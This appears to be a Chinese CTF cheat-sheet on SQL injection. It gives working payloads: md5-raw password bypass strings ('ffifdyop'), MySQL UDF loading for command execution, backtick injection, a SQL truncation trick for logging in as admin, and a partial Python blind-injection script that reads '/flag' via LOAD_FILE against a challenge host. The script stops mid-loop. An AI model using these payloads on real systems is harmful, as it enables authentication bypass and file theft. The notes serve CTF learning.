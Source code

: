 ### sql md5 加密注入
方法1 

ffifdyop 撞

`抓包的 Response Hint: "select * from `admin` where password='".md5($pass,true)."'"`

* 根据此题中的password的语句：`select * form admin where password=''`
进行password的绕过，需将此语句填充为：`select * form admin where password=''or 1`，又因为此题有md5加密，并转换为字符串，所以根据前人，大师傅们的总结，有：

    字符串：`ffifdyop`

    md5加密后：`276f722736c95d99e921722cf9ed621c` => hex2ascii: 'or'6??????

    而 Mysql 刚好又会吧 hex 转成 ascii 解释，因此拼接之后的形式是

        select * from 'admin' where password='' or '6xxxxx'

方法2

Google 了一下 `sql injection php md5`，发现了有趣的东西，下面就放一个串就好。

    password: 129581926211651571912466741651878684928
    
    raw: ?T0D??o#??'or'8.N=?

### 扩展MySQL函数------ UDF

udf是mysql自定义函数包，

udf.so用于linux系统，udf.dll用于windows系统。

有时候我们需要对表中的数据进行一些处理而内置函数不能满足需要的时候，就需要对MySQL进行一些扩展，使用者自行添加的MySQL函数就称为UDF(User Define Function)。

做法就是

    $ mysql
    > select @@plugin_dir;
得到插件的目录，将 udf.so 拷贝过去，然后再

    $ mysql
    > create function getflag returns string soname 'udf.so';
    > select help_me();
    > select getflag();



### 知识点

反引号可可以注入``
### SQL约束攻击
  字符串末尾的空格符将会被删除。换句话说"vampire"等同于"vampire "，构造"admin   "作为admin登录
### Scripts
#### sql_load_file

```python
url = "http://eci-2zeedsjzsv7gv015g3i4.cloudeci1.ichunqiu.com:80/?id='%20union%20selecSELECTt%201%20%2c2%20WHwhereERE%201%3d1%20"
payload = "and ascii(substr(convert(( LOAD_FILE( '/flag')) using utf8) ,%s,1))>%s # "
flag = ''
for i in range(1, 128):
    max = 126
    min = 33 
    while abs(max-min) > 1:
        mid = int((max+min)/2)
        p = payload % (str(i), str(mid))
        p=urllib.parse.quote(p)
        response = requests.get(url + p)
        str_response= str(response.content, encoding = "utf-8")
```